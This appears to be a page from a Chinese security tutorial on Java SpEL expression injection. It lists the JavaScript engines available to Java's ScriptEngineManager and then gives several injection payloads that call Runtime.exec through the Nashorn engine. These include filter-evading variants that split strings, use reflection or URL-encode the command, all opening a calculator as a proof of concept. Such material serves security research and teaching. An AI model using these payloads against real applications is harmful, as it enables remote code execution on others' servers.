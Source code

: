 获取所有 js 引擎信息

JAVA

```
public static void main(String[] args) {
       ScriptEngineManager manager = new ScriptEngineManager();
       List<ScriptEngineFactory> factories = manager.getEngineFactories();
       for (ScriptEngineFactory factory: factories){
               System.out.printf(
                   "Name: %s%n" + "Version: %s%n" + "Language name: %s%n" +
                   "Language version: %s%n" +
                   "Extensions: %s%n" +
                   "Mime types: %s%n" +
                   "Names: %s%n",
                   factory.getEngineName(),
                   factory.getEngineVersion(),
                   factory.getLanguageName(),
                   factory.getLanguageVersion(),
                   factory.getExtensions(),
                   factory.getMimeTypes(),
                   factory.getNames()
               );
       }
}
```

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/EngineOutput.png)

通过结果中的 Names，我们知道了所有的 js 引擎名称故 `getEngineByName` 的参数可以填 `[nashorn, Nashorn, js, JS, JavaScript, javascript, ECMAScript, ecmascript]`,举个例子:

JAVA

```
ScriptEngineManager sem = new ScriptEngineManager();
ScriptEngine engine = sem.getEngineByName("nashorn");
System.out.println(engine.eval("2+1"));
```

那么 payload 也就显而易见

JAVA

```
// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")
 
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)
 
// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)
 
// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)
```
